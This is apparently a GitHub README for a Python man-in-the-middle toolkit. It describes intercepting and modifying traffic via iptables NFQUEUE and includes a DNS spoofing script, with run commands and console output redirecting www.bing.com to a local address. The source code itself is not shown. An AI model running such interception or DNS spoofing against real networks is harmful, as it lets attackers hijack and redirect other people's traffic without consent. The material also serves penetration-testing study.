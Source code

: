 ## MITM Manage packets 

That python program manage inbound traffic from target ip server to the router forwarding by mitm host.

For  make this task the application use OS command system Iptables and netfilterqueue of python.

Itables at the init of the program enable NFQUEUE on local inbound traffic and python library consume all packets 
like a virtual fw/proxy/balancer  or other... 
In that case the interceptor has option of modify the packet before accept or drop it.

# How to use

    root@kali:~/PycharmProjects/mitm_process.py# python mitm.process.py -h
    [*] Start program ....MitM 
    Usage: mitm.process.py [options]
    
    Options:
       -h, --help            show this help message and exit
       -q QUEUE, --queue=QUEUE
                        Queue Number of Iptables for ingping traffic
        -o TRAFFIC, --option=TRAFFIC
                        Allow/Drop packages

# Execution 

    root@kali:~/PycharmProjects/mitm_process.py# python mitm.process.py -q 0 -o Allow
    [*] Start program ....MitM 
    [*] Traffic type = Allow
    Enable Iptables queue for input target packets ... on queue number 0
    UDP packet, 74 bytes
    UDP packet, 181 bytes
    TCP packet, 52 bytes
    TCP packet, 44 bytes
    TCP packet, 40 bytes
    TCP packet, 255 bytes
    TCP packet, 1500 bytes
    TCP packet, 40 bytes
    TCP packet, 204 bytes
    TCP packet, 40 bytes
    ^C[*] CRTL +C Detecting ... Flush queue for Iptables on local machine 
    [*] End program 

# dependencies

    netfilterqueue
    subprocess
    optparse

 
## DNS Spoofing Attack under MitM environment

    root@kali:~/PycharmProjects/mitm_process.py# python dns_spoofing.py -o "www.bing.com" -d "10.0.2.15"
    init attack ....DNS 
    Enable Iptables queue for input target packets ... on queue number 0
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    ^C[*] CRTL +C Detecting ... Flush queue for Iptables on local machine 
    [*] End program 
   
![spoof-1]()

![spoof-2]()

